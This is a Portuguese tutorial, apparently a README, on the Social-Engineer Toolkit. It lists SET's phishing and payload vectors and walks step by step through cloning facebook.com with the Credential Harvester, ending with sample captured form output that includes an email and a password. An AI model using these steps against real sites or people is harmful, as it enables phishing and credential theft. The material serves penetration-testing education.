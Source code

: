 ### Social-Engineer Toolkit (SET)
É uma ferramenta abrangente para realizar testes de penetração focados em engenharia social. Ele oferece uma variedade de vetores de ataque, incluindo:

<ol>
<li><b>Spear-Phishing Attack Vectors:</b> Criação de e-mails de phishing direcionados.</li>
<li><b>Website Attack Vectors:</b> Clonagem de sites para capturar credenciais.</li>
<li><b>Infectious Media Generator:</b> Criação de mídias infectadas para distribuição.</li>
<li><b>Create a Payload and Listener:</b> Geração de payloads e configuração de listeners.</li>
<li><b>Mass Mailer Attack:</b> Envio de e-mails em massa para campanhas de phishing.</li>
<li><b>Arduino-Based Attack Vector:</b> Uso de dispositivos Arduino para ataques.</li>
<li><b>Wireless Access Point Attack Vector:</b> Criação de pontos de acesso falsos.</li>
<li><b>QRCode Generator Attack Vector:</b> Geração de QR codes maliciosos.</li>
<li><b>Powershell Attack Vectors:</b> Uso de scripts PowerShell para ataques.</li>
<li><b>Third Party Modules:</b> Integração com módulos de terceiros.</li>
</ol>

## Simulação de Comandos no Linux com SET

```bash
# Obter privilégios de superusuário
sudo su

# Iniciar o Social-Engineer Toolkit
setoolkit

# Selecionar Social-Engineering Attacks
1) Social-Engineering Attacks

# Selecionar Website Attack Vectors
2) Website Attack Vectors

# Selecionar Credential Harvester Attack Method
3) Credential Harvester Attack Method

# Selecionar Site Cloner
2) Site Cloner

# Inserir o URL para clonar
http://www.facebook.com

```

Com isso, O SET então criará uma cópia do site para usar em ataques de coleta de credenciais.

```
POSSIBLE USERNAME FIELD FOUND: skip_api_login=
PARAM: signed_next=
PARAM: trynum=1
PARAM: timezone=180
PARAM: lgndim=eyJ0eXBlIjoiY2xpZW50IiwiY29udGVudF9pZCI6IjMwMDY0NzY
PARAM: lgnjs=1668021982
POSSIBLE USERNAME FIELD FOUND: email=joao@gmail.com
POSSIBLE PASSWORD FIELD FOUND: pass=passwd123654
PARAM: prefill_contact_point=
PARAM: prefill_source=
PARAM: prefill_type=
PARAM: first_prefill_source=
```
